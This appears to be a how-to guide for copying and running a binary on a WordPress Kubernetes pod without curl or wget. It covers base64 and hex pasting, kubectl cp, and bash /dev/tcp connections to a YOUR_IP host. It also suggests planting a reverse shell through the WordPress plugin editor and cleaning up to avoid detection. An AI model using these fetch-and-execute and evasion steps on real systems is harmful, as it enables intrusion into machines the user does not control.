 1. Base64 Encoding + Copy/Paste
Base64 encoding is a common way to convert binary data into a text format that can be easily copied and pasted between machines. Once you paste the Base64 data, you decode it back into its binary form.

Steps:

On your local machine, encode the binary (e.g., your_binary) into Base64:

```
base64 your_binary > binary.b64
```
This converts the binary file into a long string of Base64 text.

On the WordPress pod, create a new file where you can paste the Base64 string:

```
cat > binary.b64
```

After running the command, paste the Base64 content into the pod and press Ctrl+D to save the file.

Decode the Base64 file back into the original binary:

```
base64 -d binary.b64 > your_binary
chmod +x your_binary   # Make it executable
./your_binary          # Run the binary
```

Why it works: Even without network utilities (curl, wget, etc.), most shells have cat and base64 utilities. This approach works as long as the shell supports Base64 decoding.

2. echo or printf File Transfer (Hex Dumping)
Hex dumping is another way to convert binary files into text that can be easily pasted into a terminal. It works similarly to Base64 but uses hexadecimal encoding.

Steps:

On your local machine, convert the binary file into hexadecimal using xxd:

```
xxd -p your_binary > binary.hex
```

This creates a text file containing the hexadecimal representation of the binary.

On the WordPress pod, create a file to paste the hex dump into:

```
cat > binary.hex
```

Paste the hex content and save it with Ctrl+D.

Convert the hex back into a binary file:

```
xxd -r -p binary.hex your_binary
chmod +x your_binary    # Make it executable
./your_binary           # Run the binary
```

Why it works: Like Base64, xxd is often available in shells. This method is especially useful for small files since it doesn't require additional tools.

3. Script a Reverse Shell to Transfer Files
If you can establish a reverse shell, you can use it to create a file transfer connection between your local machine and the pod. A reverse shell allows the pod to connect back to a listener on your machine.

Steps:

On your local machine, set up a simple HTTP server to host the file:

```
python3 -m http.server 8000
```

This command will serve files in the current directory over HTTP on port 8000.

On the WordPress pod, use bash to connect to your local server:

```
exec 5<>/dev/tcp/YOUR_IP/8000
cat <&5 > your_binary   # Save the incoming data into your_binary
```

After the file transfer completes, make the binary executable:

```
chmod +x your_binary
./your_binary
```
Why it works: If /dev/tcp is enabled in the shell, you can establish raw TCP connections without needing curl or nc. This approach relies on creating an outbound connection to your server.

4. Use the WordPress Filesystem
Since you are working with a WordPress pod, there may be opportunities to upload files directly via the WordPress admin interface if it is accessible.

Steps:

Access the WordPress dashboard (if possible) using a browser.
Go to Appearance > Theme Editor or Plugins > Plugin Editor.
If editing is enabled, you can upload a reverse shell script or a file containing the binary data by embedding it into PHP code. For example, you could use PHP to decode a Base64 string and save it as a file on the server.
Caution: This method is potentially noisy because changes to the WordPress site could be detected by monitoring systems. Always clean up after any changes you make.

5. Leverage Kubernetes Features
If the WordPress pod is running in a Kubernetes environment and you have some access to Kubernetes features, you may be able to use kubectl to copy files directly into the pod.

Steps:

On a machine that has Kubernetes admin privileges, use kubectl cp to copy a file from your local system into the WordPress pod:

```
kubectl cp ./your_binary default/wordpress-pod:/path/to/destination
```
Then, on the pod:

```
chmod +x /path/to/destination/your_binary
/path/to/destination/your_binary
```

Why it works: If you have access to Kubernetes admin tools like kubectl, you can directly interact with the pod’s filesystem.

6. Using /dev/tcp for Transfers
Some shells support file transfers using bash built-in TCP connections through /dev/tcp/. You can use this feature to download files from your machine.

Steps:

On your local machine, start a listener that serves the binary file:

```
nc -lvp 8000 < your_binary
```
On the WordPress pod, use bash to connect to the listener and receive the file:

```
exec 3<>/dev/tcp/YOUR_IP/8000
cat <&3 > your_binary
```

Once the file is downloaded, make it executable:

```
chmod +x your_binary
./your_binary
```

Why it works: 
/dev/tcp is a lesser-known but powerful feature in bash that can be used to establish direct TCP connections without needing extra tools like nc.


# Key Considerations:
File Size: These methods work well for smaller files (typically under a few MB). For larger files, you'll need to split them into chunks or find another solution.

Security Monitoring: Some methods (e.g., modifying WordPress files or using reverse shells) can be more easily detected by security systems or leave traces. Be mindful of any cleanup you need to do afterward.

Pod Privileges: Your ability to use these methods depends on the configuration of the shell environment. For example, /dev/tcp might not be available on every shell.
